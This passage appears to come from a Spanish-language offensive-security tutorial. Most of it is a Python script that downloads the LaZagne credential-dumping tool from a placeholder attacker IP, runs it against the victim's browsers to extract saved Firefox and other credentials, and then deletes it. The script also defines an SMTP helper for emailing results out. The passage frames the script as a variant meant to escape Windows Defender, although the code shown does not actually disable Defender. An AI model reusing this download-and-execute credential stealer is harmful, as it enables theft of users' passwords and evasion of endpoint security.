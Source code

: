 Ahora crearemos una variante que no será eliminada por Windows Defender.

### Desactivación de funciones de Windows Defender

Modificamos el script para que **Windows Defender** no detecte la variante y podamos obtener las credenciales de Firefox:

```python
#!/usr/bin/python3

import subprocess
import smtplib
import requests
import tempfile
import os
from email.mime.text import MIMEText

def send_email(subject, body, sender, recipients, password):
    msg = MIMEText(body)
    msg['Subject'] = subject
    msg['From'] = sender
    msg['To'] = ', '.join(recipients)

    with smtplib.SMTP_SSL('smtp.gmail.com', 465) as smtp_server:
        smtp_server.login(sender, password)
        smtp_server.sendmail(sender, recipients, msg.as_string())

    print(f"\n[+] Email sent Successfully!\n")

def run_command(command):
    output_command = subprocess.check_output(command, shell=True)
    return output_command.decode("cp850")

def download_and_execute_lazagne():
    r = requests.get("http://Ip-Atacante/lazagne.exe")
    temp_file = tempfile.mkdtemp()
    os.chdir(temp_file)

    with open("lazagne.exe", "wb") as f:
        f.write(r.content)

    lazagne_output = run_command("lazagne.exe browsers")
    os.remove("lazagne.exe")

    return lazagne_output

if __name__ == '__main__':
    output_lazagne = download_and_execute_lazagne()
    print(output_lazagne)
```

---
